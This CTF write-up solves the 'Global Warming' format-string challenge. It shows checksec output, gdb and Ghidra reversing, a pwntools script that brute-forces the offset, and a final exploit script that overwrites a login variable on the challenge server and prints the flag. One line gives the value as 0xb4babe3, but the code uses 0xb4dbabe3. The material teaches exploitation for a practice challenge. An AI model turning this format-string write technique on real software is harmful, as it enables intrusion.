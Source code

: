 # Global Warming

## Global Warming

### Protections

Let's first run `checksec` to see what protections the file has:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here we don't see many protection, there's only `NX`, which means no shellcode, and `ASLR` is likely enabled serverside

### Running the file

Running the file we see that we are first prompted for input, and then when we enter some, we are given an error message, and then terminates:

```text
$ ./global-warming
aaaa
aaaa
You cannot login as admin.
```

However it's important to note that our input is printed back to us, let's check for a format string exploit:

```text
$ ./global-warming
%x
f7f2d2c0
You cannot login as admin.
```

And it's fortunately vulnerable to format strings

### Reversing

Let's load this into ghidra to get some pseudo-c code

![](../../../.gitbook/assets/globalwarmingmain.png)

Here we see it take input with fgets, where it makes a secure copy to the buffer \(reads 1024 into a 1024 big buffer\), so no buffer overflow here. It then calls `login` with this input, and another value that's unknown. Let's check in gdb what this is:

```text
   0x804928a <main+139>:        push   eax
   0x804928b <main+140>:        lea    eax,[ebx-0x1fd0]
   0x8049291 <main+146>:        push   eax
=> 0x8049292 <main+147>:        call   0x80491a6 <login>
   0x8049297 <main+152>:        add    esp,0x10
   0x804929a <main+155>:        mov    eax,0x0
   0x804929f <main+160>:        lea    esp,[ebp-0x8]
   0x80492a2 <main+163>:        pop    ecx
Guessed arguments:
arg[0]: 0x804a030 ("User")
arg[1]: 0xffffce90 ("aaaa\n")
```

Seems like a `user` variable that we might need to change. Let's decompile `login`:

![](../../../.gitbook/assets/globalwarminglogin.png)

So it prints our input back to us without a format specifier, hence the format string exploit. Then it compares a variable to the value `0xb4dbabe3`, if equal, we get the flag

We can just assume that the previous value is that variable, but let's just check that with gdb:

```text
=> 0x80491c6 <login+32>:        mov    eax,DWORD PTR [ebx+0x2c]    <== moves the value into eax
   0x80491cc <login+38>:        cmp    eax,0xb4dbabe3              <== compares with the value
   0x80491d1 <login+43>:        jne    0x80491e7 <login+65>        <== jumps past the flag if they aren't equal
```

Here's the `if` statement if assembly. At this instruction:

```text
EBX: 0x804c000 --> 0x804bf00 --> 0x1
```

So the variable is stored at `0x804c02c`, not at `0x804a030`

### Exploit

To complete this challenge we need to use the format string exploit to _write_ the value `0xb4dbabe3` at that memory address \(with the use of `%n`\), so we can pass the check, and get the flag. Fortunately, pwntools has a feature to automate this for us:

`fmtstr_payload(offset, {address : value}`

Since we are writing at the address `0x804c02c`, `address` would be that, and `value` is `0xb4babe3`

We need to find the offset though, which is basically the format string offset where it shows us our input. For example, if I did:

```text
AAAA %6$x
```

And it returned:

```text
AAAA 41414141
```

`6` would be our offset

To find this, I used the below program to brute force it:

```python
from pwn import *

e = ELF("./global-warming")

for i in range(20):
    io = e.process(level="error")
    io.sendline("AAAA %%%d$lx"% i )
    print("%d - %s" % (i, io.recvline().strip()))
    io.close()
```

Running it:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0 - b'AAAA %0$lx'
1 - b'AAAA f7f5f2c0'
2 - b'AAAA fbad2087'
3 - b'AAAA 80491b2'
4 - b'AAAA f7f20000'
5 - b'AAAA 804c000'
6 - b'AAAA ffd235b8'
7 - b'AAAA 8049297'
8 - b'AAAA 804a030'
9 - b'AAAA fff1e550'
10 - b'AAAA f7eff580'
11 - b'AAAA 8049219'
12 - b'AAAA 41414141'   <== this one
13 - b'AAAA 33312520'
14 - b'AAAA a786c24'
15 - b'AAAA fff92800'
16 - b'AAAA 3'
17 - b'AAAA 0'
18 - b'AAAA f7fc9000'
19 - b'AAAA f7d04748'
```

We find our offset is `12`. This makes our payload look like this:

```text
fmtstr_payload(12 , {0x804c02c : 0xb4dbabe3})
```

### Script

Our final exploit script now looks like this:

```python
from pwn import *

p = remote("chall.csivit.com", 30023)

value = 0xb4dbabe3

payload = fmtstr_payload(12 , {0x804c02c : value})

p.sendline(payload)

print(p.clean())
```

**csictf{n0**_**5tr1ng5**_**@tt@ch3d}**

